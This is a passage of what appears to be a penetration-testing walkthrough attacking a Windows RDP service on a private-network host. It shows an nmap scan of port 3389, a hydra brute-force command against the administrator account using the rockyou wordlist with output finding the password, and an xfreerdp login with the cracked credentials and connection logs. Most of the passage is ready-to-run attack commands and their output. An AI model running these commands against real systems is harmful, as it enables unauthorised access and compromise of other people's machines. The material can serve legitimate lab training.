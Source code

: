 **RDP scan output:**
```
Starting Nmap 7.93 ( https://nmap.org ) at 2024-01-15 10:35 EST
Nmap scan report for 192.168.1.100
Host is up (0.00048s latency).

PORT     STATE SERVICE
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 0.15 seconds
```

```bash
# Use hydra for brute force
hydra -l administrator -P /usr/share/wordlists/rockyou.txt rdp://192.168.1.100
```

**Hydra brute force output:**
```
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-15 10:36:22
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking rdp://192.168.1.100:3389/
[3389][rdp] host: 192.168.1.100   login: administrator   password: password
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-15 10:36:45
```

**If successful, connect using:**

```bash
# Using xfreerdp
xfreerdp /u:administrator /p:password /v:192.168.1.100
```

**Successful RDP connection output:**
```
[10:37:12:234] [1234:1235] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state
[10:37:12:234] [1234:1235] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpdr
[10:37:12:234] [1234:1235] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpsnd
[10:37:12:234] [1234:1235] [INFO][com.freerdp.client.common.cmdline] - loading channelEx cliprdr
[10:37:12:345] [1234:1235] [INFO][com.freerdp.primitives] - primitives autodetect, using optimized
[10:37:12:456] [1234:1235] [INFO][com.freerdp.core] - freerdp_tcp_is_hostname_resolvable:freerdp_set_last_error_ex resetting error state
[10:37:12:567] [1234:1235] [INFO][com.freerdp.core] - freerdp_tcp_connect:freerdp_set_last_error_ex resetting error state
[10:37:12:678] [1234:1235] [INFO][com.freerdp.crypto] - creating directory /home/kali/.config/freerdp
[10:37:12:789] [1234:1235] [INFO][com.freerdp.crypto] - creating directory /home/kali/.config/freerdp/certs
[10:37:12:890] [1234:1235] [INFO][com.freerdp.crypto] - created directory [/home/kali/.config/freerdp/certs]
[10:37:13:001] [1234:1235] [WARN][com.freerdp.crypto] - Certificate verification failure 'self signed certificate (18)' at stack position 0
[10:37:13:001] [1234:1235] [WARN][com.freerdp.crypto] - CN = WIN-ABCD1234567
[10:37:13:001] [1234:1235] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[10:37:13:001] [1234:1235] [ERROR][com.freerdp.crypto] - @           WARNING: CERTIFICATE NAME MISMATCH!           @
```